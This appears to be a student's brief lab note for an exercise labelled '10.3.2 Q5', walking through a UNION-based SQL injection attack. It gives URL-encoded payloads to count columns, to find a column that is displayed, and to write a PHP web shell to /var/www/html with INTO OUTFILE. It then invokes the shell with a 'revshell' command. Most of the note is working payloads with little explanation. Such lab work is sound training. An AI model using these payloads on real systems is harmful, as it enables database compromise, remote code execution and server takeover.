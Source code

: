 # 10.3.2 Q5

> [!NOTE]
> **CHECK EVERY FUCKING BUTTONS**

GET TO KNOW YOUR INJECTED PLACE

FIND WHERE IT'S OUTPUT IS SHOWING

![[Pasted image 20240507222625.png]]

### To get columns
```
' ORDER BY 7-- //
(URL ENCODED)
```

Here we got 6 columns and then we get to know which column show the string to the frontpage by checking data types

![[Pasted image 20240507222918.png]]

And it says that we can manipulate column 5!

### Check datatypes
```
'+UNION+SELECT+NULL,NULL,NULL,NULL,'A',NULL+--+//
```


Then I just upload webshell.php with help of UNION based SQLi

```
'+UNION+SELECT+null,+null,+null,+null,"<%3fphp+system($_GET['cmd'])%3b%3f>",null+INTO+OUTFILE+"/var/www/html/webshell1.php"+--+//
```

### Path
```
http://IP/webshell.php?cmd=revshell
```

if we cannot upload to /var/www/html/tmp that means we have not any permission to make tmp directory!





hulabaloo